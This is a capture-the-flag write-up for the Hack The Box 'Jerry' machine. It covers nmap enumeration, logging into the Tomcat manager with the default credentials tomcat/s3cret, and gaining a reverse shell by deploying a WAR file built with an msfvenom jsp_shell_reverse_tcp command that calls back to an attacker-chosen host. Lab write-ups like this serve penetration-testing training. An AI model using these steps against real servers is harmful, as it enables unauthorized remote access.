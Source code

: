 # Jerry Easy Windows Machine

![image](https://github.com/user-attachments/assets/b2288312-2437-45af-909d-b69080e03cde)

## Machine Description

Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials. 

## Vulnerability Found

1. Using default credentials on Apache Tomcat HTTP server
2. Reverse shell via .WAR file upload 

## Step to Re-produce

### Enumeration

### Network Enumeration

I used `nmap` to perform network enumeration.

Payload:

    nmap 10.10.10.95 -p- -sV -sC -T5 -O -oN nmap1.txt

<div align="center">
  <img src="https://github.com/user-attachments/assets/fbd80588-982b-4a86-959a-ea78b8c3b142">
</div>

<div align="center">
  Nmap Output
</div>
</br>

From the nmap output, I found that this network run only one service. HTTP-Proxy was open in port 8080. I looked into it and found the Apache Tomcat default page.

### Web Enumeration

Upon finding the Apache Tomcat default page, I tried to get in into the manager app, but it asked me to input the credentials and I clicked on cancel. Turns out, the Apache Tomcat respond with a page saying I am not authorized. In response this page, Apache Tomcat also gave me a credentials, which is user `tomcat` password `s3cret`. You can see the picture below.

 <div align="center">
  <img src="https://github.com/user-attachments/assets/ec1f2089-b5f4-4595-8d08-499fb739ba68">
</div>

<div align="center">
  Tomcat credentials
</div>
</br>

Upon finding the credential, I tried to login into the manager app again and using the credential. By looking into the manager app further, I found that I can upload a .WAR file

 <div align="center">
  <img src="https://github.com/user-attachments/assets/663a7c5a-a22e-4723-b1f4-ff29da02ee3e">
</div>

<div align="center">
  Manager app
</div>
</br>

### Exploitation

I found this method to exploit Apache Tomcat by uploading .WAR file from (HackTricks Tomcat)[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#rce]. By following the **MSFVenom Reverse Shell**, I successfully exploiting the Apache server. Here is the step:

1. Create a .WAR file containing java/jsp_reverse_shell_tcp. Payload:

       msfvenom -p java/jsp_shell_reverse_tcp LHOST=Your-IP LPORT=Your-Port -f war -o revshell.war
  
2. Upload it into the Apache Tomcat via the **WAR file to deploy** section.
3. In the Application section, it should be shown and started.
4. Run a netcat listener on the port you set before.
5. Clicked on the file name to run the file.
6. Success obtain reverse shell

<div align="center">
  <img src="https://github.com/user-attachments/assets/171ae69b-ce86-4b25-af6b-5c1c333d460e">
</div>

<div align="center">
  Obtaining reverse shell
</div>
</br>

Next, I found an interesting file in `C:\Users\Administrator\Desktop\flags`. After I opened it, it showed me the both user.txt and root.txt

<div align="center">
  <img src="https://github.com/user-attachments/assets/3293c5b6-e227-4dc6-82cb-c6076c3de4f8">
</div>

<div align="center">
  user.txt and root.txt
</div>
</br>
